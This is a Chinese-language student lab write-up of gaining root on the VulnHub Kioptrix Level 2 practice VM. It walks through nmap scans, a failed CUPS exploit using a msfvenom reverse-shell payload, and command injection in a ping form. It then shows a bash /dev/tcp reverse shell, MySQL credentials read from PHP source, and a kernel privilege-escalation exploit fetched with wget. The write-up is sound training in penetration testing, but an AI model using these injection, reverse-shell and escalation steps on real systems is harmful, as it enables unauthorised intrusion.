


# 网络攻防实战 Lab03 Writeup

!!! quote "使用的靶机为 VulnHub Kioptix Level 2"

## 渗透目的

取得目标靶机的 root 权限

熟悉 `nmap` 等指令的用法，了解 payload 的构造，网络渗透的基本流程

## 具体操作

### 信息收集

启动 VirtualBox 中的 Kali 攻击机（用于进行渗透攻击）与 Kioptix 靶机，网络采用 NAT 连接

`ifconfig` 获取攻击机的 ip 为 `10.0.2.3`，使用 `nmap` 扫描 ip：

```yacas
> nmap -sn 10.0.2.0/24
Starting Nmap 7.95 ( nmap.org ) at 2025-10-19 20:47 CST
Nmap scan report for bogon (10.0.2.1)
Host is up (0.0012s latency).
MAC Address: 52:55:0A:00:02:01 (Unknown)
Nmap scan report for bogon (10.0.2.2)
Host is up (0.00037s latency).
MAC Address: 08:00:27:12:13:F2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.15)
Host is up (0.0028s latency).
MAC Address: 08:00:27:EB:BA:50 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.3)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.12 seconds
```

考虑靶机 ip 为 `10.0.2.15`，继续扫描端口 `nmap -sV -sC 10.0.2.15`，看看有哪些服务项

以下是关键的节选内容，每个服务都会有相应的注释说明

```yacas
// SSH 服务，支持 SSHv1
// OpenSSH 3.9p1 的发布日期为 2004 年 8 月，也非常古老
// 可能存在漏洞
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1

// HTTP 服务，使用 Apache 2.0.52，其发布日期 2004 年 9 月，也非常古老
// 待进一步搜索
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)

// RPC 服务
// 留作观察
PORT     STATE SERVICE  VERSION
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            810/udp   status
|_  100024  1            813/tcp   status

// SSL 加密的 HTTP，即 HTTPS
// 还是考虑 HTTP 方向挖掘
PORT     STATE SERVICE  VERSION
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_ssl-date: 2025-10-19T16:49:13+00:00; +4h00m04s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5

// Common UNIX Printing System 服务，使用 IPP 打印协议
// 发布日期 2001 年 10 月，考虑攻击
// 但是注意到 http-title: 403 Forbidden，不能保证攻击成功
PORT     STATE SERVICE  VERSION
631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
| http-methods: 
|_  Potentially risky methods: PUT

// MySQL 服务
// 考虑 SQL 注入
PORT     STATE SERVICE  VERSION
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 08:00:27:EB:BA:50 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

同时确定靶机操作系统为 `CentOS`

---

### Getshell 尝试

#### ipp 方向（GetShell 失败）

CUPS 1.1 是这个服务的第一个稳定发行版，考虑 `searchsploit` 获取已知 `exploit`

```yacas
> searchsploit cups 1.1
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
CUPS 1.1.x - '.HPGL' File Processor Buffer Overflow                   | linux/remote/24977.txt
CUPS 1.1.x - Cupsd Request Method Denial of Service                   | linux/dos/22619.txt
CUPS 1.1.x - Negative Length HTTP Header                              | linux/remote/22106.txt
CUPS 1.1.x - UDP Packet Remote Denial of Service                      | linux/dos/24599.txt
CUPS < 1.3.8-4 - Local Privilege Escalation                           | multiple/local/7550.c
CUPS < 2.0.3 - Multiple Vulnerabilities                               | multiple/remote/37336.txt
CUPS < 2.0.3 - Remote Command Execution                               | linux/remote/41233.py
CUPS Server 1.1 - GET Denial of Service                               | linux/dos/1196.c
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`CUPS < 2.0.3 - Remote Command Execution` 远程代码执行，考虑使用这个，使用 `searchsploit -m 41233` 取一份到本地运行：

```yacas
> python 41233.py
  File "/home/kali/Desktop/41233.py", line 16
    print '''
    ^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?
```

把 SyntaxError 的内容 SFTW 一下发现是因为使用了 Python 2 语法，继续：

```yacas
> python2 41233.py
python script.py <args>
   -h, --help:             Show this message
   -a, --rhost:            Target IP address
   -b, --rport:            Target IPP service port
   -c, --lib               /path/to/payload.so
   -f, --stomp-only        Only stomp the ACL (no postex)

Examples:
python script.py -a 10.10.10.10 -b 631 -f
python script.py -a 10.10.10.10 -b 631 -c /tmp/x86reverseshell.so
```

发现需要构造 `payload.so` 并作为参数传入，这和 Kioptix 1 中遇到的开箱即用的脚本不一样

继续 STFW 发现了 `msfvenom`，支持生成各种各样的 payload（预装于 Kali）

```yacas
// 运行 msfvenom -h
> msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
	// 只取了最核心的三个参数，和上面的例子一样
	// --list 可以具体列出可行的参数
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
    -f, --format          <format>   Output format (use --list formats to list)
    -o, --out             <path>     Save the payload to a file

// payload 查询
// 只列出了处于候选名单的 payload（构造反向 shell）
> msfvenom --list payloads

Framework Payloads (1680 total) [--payload <value>]
===================================================

    Name                                              Description
    ----                                              -----------
    linux/x64/meterpreter/reverse_tcp                 Inject the mettle server payload (staged).
                                                      Connect back to the attacker
    linux/x64/shell/reverse_tcp                       Spawn a command shell (staged). Connect back to
                                                      the attacker

// -f 查询略，选择 elf-so 表示输出 .so 文件
// 考虑到配置难度，最终选择了 linux/x64/shell/reverse_tcp
> msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.0.2.3 LPORT=1234 -f elf-so -o payload.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf-so file: 532 bytes
Saved as: payload.so
```

然后运行：

```yacas
> python2 41233.py -a 10.0.2.15 -b 631 -c ./payload.so
[*]     locate available printer
[-]     no printers
```

发现没有配置打印机，从 ipp 方向 Getshell 的方向失败

#### HTTP/SQL 方向

访问 `http://10.0.2.15/`，发现是一个登陆页面 “**Remote System Administration Login**”，需要输入账号和密码

考虑到使用了 MySQL 服务，尝试 SQL 注入：



注入有效，登录后是一个可以 Ping 操作的页面


```yacas
127.0.0.1

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.283 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.411 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.508 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 0.283/0.400/0.508/0.095 ms, pipe 2

```

发现 Web Console 直接执行了一个 `ping 127.0.0.1` 的操作，尝试一个命令注入

```yacas
> 127.0.0.1 | whoami
apache
```

非常听话，此时可以理解为获得了一个低权限 Shell，接下来考虑提权

为了方便操作我们先获取一个反向 Shell：

```yacas
// Web 页面，命令注入
> 127.0.0.1|bash -i >& /dev/tcp/10.0.2.3/1234 0>&1
// 攻击机 Shell，nc 连接反向 Shell
> nc -lvp 1234  
listening on [any] 1234 ...
10.0.2.15: inverse host lookup failed: Unknown host
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.15] 32771
bash: no job control in this shell
bash-3.00$ 
```

Getshll 操作完成

### 提权尝试

#### SQL UDF 提权（提权失败）

MySQL 服务通常以高权限运行，可以先获得 MySQL 的管理员账户，再通过 UDP 执行系统指令

```yacas
/* /var/www/html/index.php 存放 Apache 的文档根目录（默认）*/
> bash-3.00$ cat /var/www/html/index.php
<?php
		// 这里是 MySQL 凭据，明文存储
        mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
        //print "Connected to MySQL<br />";
        mysql_select_db("webapp");

        if ($_POST['uname'] != ""){
                $username = $_POST['uname'];
                $password = $_POST['psw'];
    			// SQL 注入漏洞
                $query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
                //print $query."<br>";
                $result = mysql_query($query);

                $row = mysql_fetch_array($result);
                //print "ID: ".$row['id']."<br />";
        }

?>

/* ping 命令注入时的 php 页面 */
> bash-3.00$ cat /var/www/html/pingit.php
<?php

print $_POST['ip'];
if (isset($_POST['submit'])){
        $target = $_REQUEST[ 'ip' ];
        echo '<pre>';
        echo shell_exec( 'ping -c 3 ' . $target );
        echo '</pre>';
    }
?>

```

尝试修改 `pingit.php` 提权发现没有权限，根据 `index.php` 的明文账号密码登录 MySQL

```yacas
bash-3.00$ mysql -u john -p
Enter password: hiroshima
// 进入 MySQL
// 反向 Shell 下指令输入似乎有问题，缓冲区内容不会立即输出
SELECT @@version;
@@version
4.1.22

SELECT @@plugin_dir;
ERROR 1193 (HY000) at line 2: Unknown system variable 'plugin_dir'

system chmod +s /bin/bash
chmod: changing permissions of `/bin/bash': Operation not permitted

select * from mysql.user where user = substring_index(user(), '@', 1)\G;
*************************** 1. row ***************************
                 Host: localhost
                 User: john
             Password: 5a6914ba69e02807
          Select_priv: Y
          Insert_priv: Y
          Update_priv: Y
          Delete_priv: Y
          Create_priv: N
            Drop_priv: N
          Reload_priv: N
        Shutdown_priv: N
         Process_priv: N
            File_priv: N		// 没有写入文件的权限
           Grant_priv: N
      References_priv: N
           Index_priv: N
           Alter_priv: N
         Show_db_priv: N
           Super_priv: N		// 不是管理员
Create_tmp_table_priv: N
     Lock_tables_priv: N
         Execute_priv: N
      Repl_slave_priv: N
     Repl_client_priv: N
             ssl_type: 
           ssl_cipher: 
          x509_issuer: 
         x509_subject: 
        max_questions: 0
          max_updates: 0
      max_connections: 0
```

目前的普通账号高度受限，遂放弃 SQL 方向

#### Kernal 内核漏洞

之前有确定操作系统为 CentOS，先进一步获取系统版本，然后上传一份对应版本的漏洞脚本

```yacas
/* 靶机反向 Shell */
bash-3.00$ cat /etc/lsb-release.d
CentOS release 4.5 (Final)
// 收集信息：靶机为 CentOS 4.5

/* 攻击机 Shell */
> searchsploit centos 4.5
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Cor | linux_x86/local/9542.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfutex' Local Privilege E | linux/local/35370.c
--------------------------------------------------------------------- ---------------------------------
> searchsploit -m 9542
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
    Codes: CVE-2009-2698
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/9542.c

> python3 -m http.server 1145
Serving HTTP on 0.0.0.0 port 1145 (http://0.0.0.0:1145/) ...
// 攻击机使用 http 上传 9542.c

/* 靶机接收文件，编译运行 */
bash-3.00$ cd /tmp
bash-3.00$ wget 10.0.2.3:1145/9542.c
--15:22:52--  http://10.0.2.3:1145/9542.c
           => `9542.c'
Connecting to 10.0.2.3:1145... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,535 (2.5K) [text/x-csrc]

    0K ..                                                    100%  109.89 MB/s

15:22:52 (109.89 MB/s) - `9542.c' saved [2535/2535]
    
bash-3.00$ gcc 9542.c -o exploit
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./exploit
sh: no job control in this shell
sh-3.00# whoami
root
// 获得了 root 权限，使用 passwd 修改密码
```


---

## 渗透结果

成功获取了 root 权限并且修改了 root 密码，登录靶机界面，输入新密码进入 root 账号：



---

## 问题分析/启示

1. ipp 服务有对应的 exploit，但是在各个阶段都尝试失败

   经过测试，ipp 服务对应的 Getshell 脚本和本地提权脚本都因为没有启用打印机服务而尝试失败，通过其他方法获得低权限 Shell 后也没有权限设置虚拟打印机。并且 nmap 扫描时已经出现了 403 Forbidden 状态码，暗示应该尽早转移方向，避免浪费时间

2. Getshell 后可以优先尝试进行内核攻击，因为靶机的各个服务都很古老，考虑靶机系统内核有成熟漏洞利用，尝试失败后再考虑 SUID，SQL UDF 等方向的提权

---

## 其他

​	总用时 4h，查资料 + 试错用时 2.5h
